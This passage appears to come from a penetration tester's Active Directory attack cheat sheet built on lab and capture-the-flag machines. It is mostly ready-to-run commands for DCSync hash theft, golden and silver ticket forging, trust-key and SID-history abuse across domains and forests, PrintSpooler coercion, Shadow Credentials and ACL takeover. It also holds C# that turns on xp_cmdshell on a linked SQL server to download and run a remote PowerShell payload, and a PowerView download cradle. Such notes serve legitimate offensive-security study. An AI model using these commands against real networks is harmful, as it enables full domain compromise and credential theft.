      lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
      ```


* Enumerate Domain & Trust Information (using powerview)
  *   ```powershell
      Get-DomainSID -Domain prod.corp1.com
      Get-DomainSid -Domain corp1.com
      ```


* Forge a Golden Ticket with Extra SIDs
  *   ```powershell
      # kerberos::golden /user:<FakeUser> /domain:<OriginDomain> /sid:<OriginDomainSID> /krbtgt:<krbtgtHash> /sids:<RootDomainSID>-519 /ptt
      kerberos::golden /user:administrator /domain:prod.corp1.com /sid:S-1-5-21-3776646582-2086779273-4091361643 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-1095350385-1831131555-2412080359-519 /ptt
      ```


* Access Root Domain Controller
  *   ```powershell
      c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd
      whoami /groups
      ```



## Using Trust Key

* Extract trust key
  * Name of the account is always the same as the trusted domain
  *   ```powershell
      lsadump::dcsync /domain:prod.corp1.com /user:corp1$
      ```


* Get Domain SID
  *   ```powershell
      Get-DomainSID -Domain prod.corp1.com
      Get-DomainSID -Domain corp1.com
      ```


* Craft golden ticket
  *   ```powershell
      kerberos::golden /user:<user_name> /domain:<domain_name> /sid:<domain_sid> /sids:<sid_of_target_domain> /rc4:<trust_key_RC4_key> /service:krbtgt /target:<the_target_domain>
      kerberos::golden /user:Administrator /domain:prod.corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /rc4:d6eba9e9b9bb466be9d9d20c5584c9ef /sids:S-1-5-21-1587569303-1110564223-1586047116-519 /target:corp1.com /ticket:ticket.kirbi
      ```


* Inject ticket with Rubeus
  *   ```powershell
      Rubeus.exe asktgs /ticket:ticket.kirbi /dc:rdc01.corp1.com /service:cifs/rdc01.corp1.com /ptt
      ```


* Reinject to PsExec
  *   ```powershell
      Rubeus.exe asktgs /ticket:ticket.kirbi /dc:rdc01.corp1.com /service:HOST/rdc01.corp1.com /ptt
      ```


* Access Root Domain Controller
  * ```powershell
    c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd
    whoami /groups
    ```

</details>

<details>

<summary>Abusing PrintSpool service to obtain EA Hash</summary>

* Login to server with unconstrained kerberos delegation (eg: appsrv01)
  * Can configure a server to have unconstrained kerberos delegation if domain admin
*   ```powershell
    ls \\rdc01\pipe\spoolss
    Rubeus.exe monitor /interval:5 /filteruser:RDC01$
    .\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
    Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...
    lsadump::dcsync /domain:corp1.com /user:corp1\administrator

    #Login via evil-winrm
    evil-winrm -i 192.168.177.60 -u administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e
    ```



</details>

<details>

<summary>Compromising An Additional Forest</summary>

* Forest trust has SID Filtering
  * Contents in the ExtraSids field are filtered, grp memberships are not blindly trusted
  * Moving from corp1.com to corp2.com
  *   ```powershell
      # Enable sidhistory (Requires DA of target corp2.com)
      netdom trust corp2.com /d:corp1.com /enablesidhistory:yes
      # Check that TrustAttributes has TREAT_AS_EXTERNAL
      Get-DomainTrust -Domain corp2.com
      ```


* Need to find user with RID >= 1000 && user in domain local security groups so as not to be filtered (Moving from corp1.com to corp2.com)
  * ```powershell
    # Enumerate members of the corp2.com built-in administrators group
    Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
    # Enumerate Domain (using powerview)
    Get-DomainSID -Domain corp1.com
    # Extracts krbtgt hash for creating a Golden Ticket 
    lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
    kerberos::golden /user:h4x /domain:corp1.com /sid:S-1-5-21-1587569303-1110564223-1586047116 /krbtgt:6b1bca4a1f7dbd67e28d3491290e4cb3 /sids:S-1-5-21-3759240818-3619593844-2110795065-1106 /ptt
    # Laterally move to dc01
    c:\tools\SysinternalsSuite\PsExec.exe \\dc01.corp2.com cmd
    ```

</details>

<details>

<summary>Linked SQL Servers in Forest</summary>

## Enumeration

```powershell
# Enumeration for any registered SPNs for MSSQL in prod.corp1.com
setspn -T prod -Q MSSQLSvc/*
# Enumeration of registered SPNs across domain trust
setspn -T corp1 -Q MSSQLSvc/*
setspn -T corp2.com -Q MSSQLSvc/*
```

## Exploiting

*   Login to the rdc01.corp1.com mssql server

    <figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


*   Enumeration for [linked sql servers](../services/1433-mssql.md#linked-sql-servers)

    <figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Obtaining Reverse shell from dc01.corp2.com
  * ```csharp
    String enable_xpcmd = "EXEC ('sp_configure ''show advanced options'', 1; reconfigure; EXEC sp_configure ''xp_cmdshell'', 1; reconfigure;') AT \"dc01.corp2.com\";";
    SqlCommand command = new SqlCommand(enable_xpcmd, con);
    command.ExecuteNonQuery();
    Console.WriteLine("[+] Enabled xp_cmdshell on DC01");

    String powershellCommand = "IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.222/runall.ps1')";
    String b64Command = Convert.ToBase64String(Encoding.Unicode.GetBytes(powershellCommand));

    String execCmd = $"EXEC ('EXEC xp_cmdshell ''powershell -EncodedCommand {b64Command}''') AT \"dc01.corp2.com\";";
    Console.WriteLine("[+] Executing payload on DC01: " + execCmd);

    command = new SqlCommand(execCmd, con);
    command.ExecuteNonQuery();

    Console.WriteLine("[+] Command executed successfully on DC01.");

    ```

</details>

<details>

<summary>Exploiting AddKeyCredentialLink</summary>

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Using [https://github.com/eladshamir/Whisker](https://github.com/eladshamir/Whisker)

```
Whisker.exe add /target:ZPH-SVRMGMT1$
```

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
Rubeus.exe asktgt /user:ZPH-SVRMGMT1$ /certificate:MIIJ… /password:"zCixoq4fEBQBRvvE" /domain:zsm.local /dc:ZPH-SVRDC01.zsm.local /getcredentials /show /ptt
klist
```

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

User's NTLM hash might be displayed:

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Trust Exploitation Against Parent Domain</summary>

Already compromised `internal.zsm.local` --> trying to compromise parent domain `zsm.local`

Use PowerView to Enumerate the Domains SID:

```powershell
iex (new-object net.webclient).downloadstring('http://10.10.14.4/PowerView.ps1')
Get-DomainSID -Domain internal.zsm.local
Get-DomainSID -Domain zsm.local
```

Obtain the trust key in rc4 format

```bash
.\mimikatz.exe
lsadump::trust /patch
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>



```bash
Kerberos::golden /user:Administrator /domain:internal.zsm.local /sid:S-1-5-21-3056178012-3972705859-491075245 /sids:S-1-5-21-2734290894-461713716-141835440-519 /rc4:65065df3af96b70f29606e2719000eb4 /service:krbtgt /target:zsm.local /ticket:trustkey.kirbi
# kerberos::golden /user:<USERNAME> /domain:<DOMAIN_NAME> /sid:<ORIGINAL_DOMAIN_SID> /sids:<PARENT_DOMAIN_SID>-519 /rc4:<KRB_TGT_RC4_KEY> /service:<KERBEROS_SERVICE_SP> /target:<TARGET_REALM> /ticket:<OUTPUT_TICKET_FILENAME>
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
dir \\ZPH-SVRDC01.zsm.local\c$
type \\ZPH-SVRDC01.zsm.local\c$\users\administrator\desktop\flag.txt
```

</details>

<details>

<summary>Exploiting WriteOwner on group</summary>

<figure><img src="../.gitbook/assets/image (359).png" alt=""><figcaption><p>JDGODD has WriteOwner privilege over "Core staff" group</p></figcaption></figure>

```
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Cred $cred -Rights All

Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Cred $cred

net group 'CORE STAFF'
```

<figure><img src="../.gitbook/assets/image (360).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Request TGS for Administrator</summary>

Currently have sqlsvc account --> want to request a TGS ticket for administrator.

```bash
# Converting password to NTLM hash
echo -n 'Pegasus60' | iconv -t utf16le | openssl md4

# Get Domain SID using impacket-getPac
impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson
# OR Get Domain SID using nxc
nxc ldap dc1.scrm.local -u ksimpson -p ksimpson -d scrm.local -k --get-sid

# Sync the clock of attacker machine to DC
rdate -n dc1.scrm.local

# Create TGS for administrator user:
impacket-ticketer -spn "MSSQLSvc/dc1.scrm.local" -user "ksimpson" -password "ksimpson" -nthash "B999A16500B87D17EC7F2E2A68778F05" -domain scrm.local -domain-sid "S-1-5-21-2743207045-1827831105-2542523200" -dc-ip dc1.scrm.local Administrator

# Using TGS to login to MSSQL DB
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient administrator@dc1.scrm.local -k -no-pass
```

</details>

<details>

<summary>Exploiting Owning a Group &#x26;&#x26; Group GenericWrite on User</summary>

<figure><img src="../.gitbook/assets/image (363).png" alt=""><figcaption></figcaption></figure>

Ensure /etc/krb5.conf:

```bash
[libdefaults]
    default_realm = ABSOLUTE.HTB
    kdc_timesync = 1
    ccache_type = 4
    forwardable = true
    proxiable = true
    fcc-mit-ticketflags = true
[realms]
    ABSOLUTE.HTB = {
        kdc = dc.absolute.htb
        admin_server = dc.absolute.htb
        default_domain = absolute.htb
    }

```

```bash
kinit m.lovegod

# Make the user m.lovegod owner of the group "Network Audit"
python3 /usr/share/doc/python3-impacket/examples/owneredit.py -k -no-pass absolute.htb/m.lovegod -dc-ip dc.absolute.htb -new-owner m.lovegod -target 'Network Audit' -action write
```

<figure><img src="../.gitbook/assets/image (364).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash"><code class="lang-bash"><strong># Give full control of the Network Audit group to the user m.lovegod
</strong><strong>impacket-dacledit -k 'absolute.htb/m.lovegod:AbsoluteLDAP2022!' -dc-ip dc.absolute.htb -principal m.lovegod -target "Network Audit" -action write -rights WriteMembers
</strong></code></pre>

<figure><img src="../.gitbook/assets/image (365).png" alt=""><figcaption></figcaption></figure>

```bash
# Add the user m.lovegod to the group Network Audit
net rpc group addmem "Network Audit" m.lovegod -U 'm.lovegod' --use-kerberos=required -S dc.absolute.htb
net rpc group members "Network Audit" -U 'm.lovegod' --use-kerberos=required -S dc.absolute.htb

# Check if ADCS is installed
certipy-ad find -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb

# Request new TGT and perform the attack
kinit m.lovegod
certipy-ad shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip 10.10.11.181 -target dc.absolute.htb -account winrm_user
```

<figure><img src="../.gitbook/assets/image (366).png" alt=""><figcaption></figcaption></figure>

```bash
export KRB5CCNAME=winrm_user.ccache
evil-winrm -i dc.absolute.htb -r ABSOLUTE.HTB
```

</details>

<details>

<summary>Silver-Ticket Attack (After obtaining service passwords/hashes)</summary>

2 practical ways to use them:

* Web App:&#x20;
  * When a webapp has multiple user roles and uses kerberos authentication
  * Craft a silver ticket to impersonate any user on the application --> access privileged areas
* Database:
  * Targeting a MSSQL DB, can craft a silver ticket and able to impersonate the SA user and user it to enable and execute xp\_cmdshell

### Example

* Context:&#x20;
  * Have svc\_web credentials,&#x20;
  * Webapp using kerberos authentication at [http://lusdc.lustrous.vl/Internal](http://lusdc.lustrous.vl/Internal)
*   Exploitation:

    * Convert plaintext password to NTLM hash using [https://www.browserling.com/tools/ntlm-hash](https://www.browserling.com/tools/ntlm-hash) or Rubeus

    <figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



    * Find the Domain-SID using `impacket-getPac -targetUser administrator lustrous.vl/svc_web:iydgTvmujl6f` or from bloodhound

    <figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



    *   Obtain RID of `tony.ward` user from bloodhound

        <figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```bash
# Crafting silver ticket
.\mimikatz.exe
kerberos::purge
kerberos::golden /sid:S-1-5-21-2355092754-1584501958-1513963426 /domain:lustrous.vl /id:1114 /target:lusdc.lustrous.vl /service:http /rc4:E67AF8B3D78DF5A02EB0D57B6CB60717 /ptt /user:tony.ward
# kerberos::golden /sid:<domain_sid> /domain:domain.com /id:<id_of_user_to_impersonate> /target:<domain> /service:<spn> /rc4:<ntlm hash> /ptt /user:<username_to_impersonate>

# View the webpage after impersonating tony.ward user
iwr http://lusdc.lustrous.vl/Internal -UseBasicParsing -UseDefaultCredentials
```

</details>

